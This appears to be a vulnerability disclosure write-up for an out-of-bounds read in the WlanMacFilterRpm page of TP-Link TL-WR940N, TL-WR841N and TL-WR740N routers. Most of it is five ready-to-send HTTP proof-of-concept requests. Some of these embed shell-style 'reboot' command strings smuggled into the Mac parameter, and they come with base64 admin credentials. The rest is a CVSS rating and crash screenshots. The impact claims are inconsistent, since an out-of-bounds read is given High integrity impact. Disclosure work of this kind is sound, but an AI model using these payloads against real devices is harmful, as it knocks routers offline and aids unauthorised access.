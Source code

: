 # TP-Link TL-WR940N/TL-WR841N/TL-WR740N wireless router /userRpm/WlanMacFilterRpm buffer read out-of-bounds vulnerability

## 1 Basic Information

- Vulnerability Type: Buffer read out-of-bounds
- Vulnerability Description: A buffer overflow vulnerability exists in TP-Link TL-WR940N V2/V4、TL-WR841N V8/V10 and TL-WR740N V1/V2 wireless router. Its /userRpm/WlanMacFilterRpm component has a security vulnerability in processing Mac GET key parameters, allowing remote attackers to submit special requests through the vulnerability, causing buffer out-of-bounds read errors, which may lead to memory-sensitive information leakage and denial of service.
- Device model:
  - TP-Link TL-WR940N V2/V4、TP-Link TL-WR841N V8/V10、TP-Link TL-WR740N V1/V2

## 2 Vulnerability Value

- Maturity of Public Information: None

- Order of Public Vulnerability Analysis Report: None

- Stable reproducibility: yes

- Vulnerability Score (refer to CVSS)

  - V2：[7.1 High AV:N/AC:H/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:H/Au:S/C:C/I:C/A:C))
  - V3.1：[8.6 High AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)

- Exploit Conditions

  - Attack Vector Type: Network
  - Attack Complexity: Low
  - Complexity of Exploit
    - Permission Constraints: authentication is required
    - User Interaction: No victim interaction required
  - Scope of Impact: Changed (may affect other components than vulnerable ones)
  - Impact Indicators:
    - Confidentiality: High
    - Integrity: High
    - Availability: High
  - Stability of vulnerability exploitation: Stable recurrence
  - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory

- Exploit Effect
  - Denial of Service

## 3 PoC

The PoC of TP-Link WR940N V4 is as follows:

```http
GET /LVHFBYIBSYXBAXRA/userRpm/WlanMacFilterRpm.htm?Mac;CMD=$'reboot';$CMD=1C-BF-C0-7A-E0-03&Desc=&Type=1&entryEnabled=1&Changed=0&SelIndex=0&Page=1&vapIdx=1&Save=Save HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://127.0.0.1:8081/LVHFBYIBSYXBAXRA/userRpm/WlanMacFilterRpm.htm?Add=Add&Page=1&vapIdx=
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link WR940N V2 is as follows:

```http
GET /CAKDBATBHJTUFMRC/userRpm/WlanMacFilterRpm.htm?|=00-1D-0F-11-22-33&Desc=123&Type=1&entryEnabled=1&Changed=0&SelIndex=0&Page=1&vapIdx=1&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/KMODQNKANSQJBYFA/userRpm/WlanMacFilterRpm.htm?Add=Add&Page=1&vapIdx=
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link WR841N V8 is as follows:

```http
GET /userRpm/WlanMacFilterRpm.htm?Mac?=78-2B-46-90-5c-67&Desc=rwsef&Type=1&entryEnabled=1&Changed=0&SelIndex=0&Page=1&vapIdx=1&Save=Save HTTP/1.1
Host: 0.0.0.0:49168
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://0.0.0.0:49168/userRpm/WlanMacFilterRpm.htm?Add=Add&Page=1&vapIdx=
Cookie: Authorization=
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link WR841N V10 is as follows:

```http
GET /OTRRRRDAFITRVSAA/userRpm/WlanMacFilterRpm.htm?MacCMD=$"reboot";$CMD=1C-BF-C0-7A-E0-04&Desc=des&Type=1&entryEnabled=1&Changed=0&SelIndex=0&Page=1&vapIdx=1&Save=Save HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://127.0.0.1:8081/BMKHACLAYMEWMEQA/userRpm/WlanMacFilterRpm.htm?Add=Add&Page=1&vapIdx=
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link WR740N is as follows:

```http
GET /userRpm/WlanMacFilterRpm.htm?Mac;reboot|=00-16-EA-AE-3C-40&Desc=a&Type=1&entryEnabled=1&Changed=0&SelIndex=0&Page=1&Save=Save HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://192.168.1.1/userRpm/WlanMacFilterRpm.htm?Add=Add&Page=1
Upgrade-Insecure-Requests: 1

```

## 4 Vulnerability Principle

When the Web management component receives a GET request, its /userRpm/WlanMacFilterRpm component has a security vulnerability in processing the Mac address GET key parameter. The Mac parameter itself is put into the stack without being checked, resulting in a denial of service. Attackers exploit this vulnerability to construct Mac parameters, causing buffer out-of-bounds read errors, which may lead to memory-sensitive information disclosure and denial of service. Attackers can use this vulnerability to directly achieve the effect of denial of service attacks.

The firmware simulation process and interface are as follows:

![](./imgs/fat.png)

![](./imgs/before.png)

![](./imgs/web.png)

After sending the constructed PoC, the cache area read out of bounds and a BadVA error occurred, resulting in denial of service.

![](./imgs/err.png)

![](./imgs/err2.png)

![](./imgs/err3.png)

![](./imgs/after.png)

## 5. The basis for judging as a 0-day vulnerability

Searching the WlanMacFilterRpm keyword in the NVD database did not find any vulnerabilities; searching the firmware model + parameter Mac keyword in the NVD database did not find any vulnerabilities, so it is considered a 0-day vulnerability.